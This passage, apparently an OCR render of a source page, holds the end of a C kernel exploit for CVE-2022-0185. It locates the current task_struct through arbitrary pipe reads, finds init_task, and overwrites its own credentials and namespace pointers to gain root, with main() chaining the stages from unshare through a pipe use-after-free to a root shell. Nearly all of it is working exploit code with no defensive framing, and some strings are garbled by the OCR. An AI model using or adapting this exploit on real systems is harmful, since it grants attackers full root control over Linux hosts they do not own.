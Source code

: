 ```
 Seeking task_struct in memory...");    /**     * For a machine with MEM less than 256M, we can simply get the:     *      page_offset_base = heap_leak & 0xfffffffff0000000;     * But that's not always accurate, espacially on a machine with MEM > 256M.     * So we need to find another way to calculate the page_offset_base.     *      * Luckily the task_struct::ptraced points to itself, so we can get the     * page_offset_base by vmmemap and current task_struct as we know the page.     *      * Note that the offset of different filed should be referred to your env.     */    for (int i = 1; 1; i++) {        arbitrary_read_by_pipe((struct page*) (vmemmap_base + (i-1)*0x40), buf);        arbitrary_read_by_pipe((struct page*) (vmemmap_base + i * 0x40),                                &((char*)buf)[0x1000]);        comm_addr = memmem(buf, 0x1ff0, "arttPWNnba3", 11);        if (comm_addr == NULL) {            continue;        }        if ((((size_t) comm_addr - (size_t) buf) & 0xfff) < 500) {            continue;        }        printf("
 Found string at page: %lx\n", vmemmap_base + i * 0x40);        printf("
 String offset: %lx\n",                                    ((size_t) comm_addr - (size_t) buf) & 0xfff);        printf("
 comm_addr[-2]: %lx\n", comm_addr[-2]);        printf("
 comm_addr[-3]: %lx\n", comm_addr[-3]);        printf("
 comm_addr[-52]: %lx\n", comm_addr[-52]);        printf("
 comm_addr[-53]: %lx\n", comm_addr[-53]);        if ((comm_addr[-2] > 0xffff888000000000) /* task->cred */            && (comm_addr[-3] > 0xffff888000000000) /* task->real_cred */            && (comm_addr[-53] > 0xffff888000000000) /* task->read_parent */            && (comm_addr[-52] > 0xffff888000000000)) {  /* task->parent */            /* task->read_parent */            parent_task = comm_addr[-53];            /* task_struct::ptraced */            current_task = comm_addr[-46] - 2280;            page_offset_base = (comm_addr[-46]&0xfffffffffffff000) - i * 0x1000;            page_offset_base &= 0xfffffffff0000000;            printf("\033[32m\033[1m[+] Found task_struct on page: \033[0m%p\n",                   (struct page*) (vmemmap_base + i * 0x40));            printf("\033[32m\033[1m[+] page_offset_base: \033[0m0x%lx\n",                   page_offset_base);            printf("\033[34m\033[1m
 current task_struct's addr: \033[0m"                   "0x%lx\n\n", current_task);            break;        }    }}/** * @brief find the init_task and copy something to current task_struct*/void privilege_escalation_by_task_overwrite(void){    puts("\n\033[34m\033[1m"         "Stage VI - Hijack current task_struct to get the root"         "\033[0m\n");    /* finding the init_task, the final parent of every task */    puts("
 Seeking for init_task...");    for (;;) {        size_t ptask_page_addr = direct_map_addr_to_page_addr(parent_task);        tsk_buf = (size_t*) ((size_t) buf + (parent_task & 0xfff));        arbitrary_read_by_pipe((struct page*) ptask_page_addr, buf);        arbitrary_read_by_pipe((struct page*) (ptask_page_addr+0x40),&buf[512]);        /* task_struct::real_parent */        if (parent_task == tsk_buf[278]) {            break;        }        parent_task = tsk_buf[278];    }    init_task = parent_task;    init_cred = tsk_buf[329];    init_nsproxy = tsk_buf[341];    printf("\033[32m\033[1m[+] Found init_task: \033[0m0x%lx\n", init_task);    printf("\033[32m\033[1m[+] Found init_cred: \033[0m0x%lx\n", init_cred);    printf("\033[32m\033[1m[+] Found init_nsproxy:\033[0m0x%lx\n",init_nsproxy);    /* now, changing the current task_struct to get the full root :) */    puts("
 Escalating ROOT privilege now...");    current_task_page = direct_map_addr_to_page_addr(current_task);    arbitrary_read_by_pipe((struct page*) current_task_page, buf);    arbitrary_read_by_pipe((struct page*) (current_task_page+0x40), &buf[512]);    tsk_buf = (size_t*) ((size_t) buf + (current_task & 0xfff));    tsk_buf[328] = init_cred;    tsk_buf[329] = init_cred;    tsk_buf[341] = init_nsproxy;    arbitrary_write_by_pipe((struct page*) current_task_page, buf, 0xff0);    arbitrary_write_by_pipe((struct page*) (current_task_page+0x40),                            &buf[512], 0xff0);    puts("[+] Done.\n");}int msg_pipe[2];void signal_handler(int nr){    printf("[x] Receive signal %d!\n", nr);    sleep(114514);}int main(int argc, char **argv, char **envp){    puts("
 CVE-2022-0185 - exploit by arttnba3");    signal(SIGSEGV, signal_handler);    pipe(msg_pipe);    if (!fork()) {        /* create new namespace to get CAP_SYS_ADMIN */        if (unshare(CLONE_NEWNS | CLONE_NEWUSER) < 0) {            err_exit("FAILED to unshare()!");        }        bind_core(0);        occupy_4k_obj_by_msg();sleep(1);        corrupting_first_level_pipe_for_page_uaf();sleep(1);        corrupting_second_level_pipe_for_pipe_uaf();sleep(1);        building_self_writing_pipe();sleep(1);        info_leaking_by_arbitrary_pipe();sleep(1);        privilege_escalation_by_task_overwrite();sleep(1);        write(msg_pipe[1], "arttnba3", 8);        sleep(114514);    } else {        char ch;        if (prctl(PR_SET_NAME, "arttPWNnba3") < 0) {            err_exit("FAILED to prctl()!");        }        read(msg_pipe[0], &ch, 1);    }    puts("
 checking for root...");    get_root_shell();    return 0;}

```
